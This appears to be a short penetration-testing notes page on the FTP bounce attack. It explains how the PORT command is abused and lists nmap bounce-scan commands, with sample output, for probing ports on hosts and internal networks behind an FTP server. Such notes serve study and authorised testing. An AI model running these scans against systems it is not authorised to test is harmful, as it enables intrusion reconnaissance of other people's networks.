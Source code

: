 # FTP Bounce Attack

* a network attack that uses FTP servers to deliver outbound traffic to another device on the network.
  * The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server



<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### Attack

* [nmap.md](nmap.md "mention")

```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

```shell-session
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

```
nmap -b <name>:<pass>@<ftp_server> <victim>
```

```
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
```

```
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```

## Reference

* https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp/ftp-bounce-attack
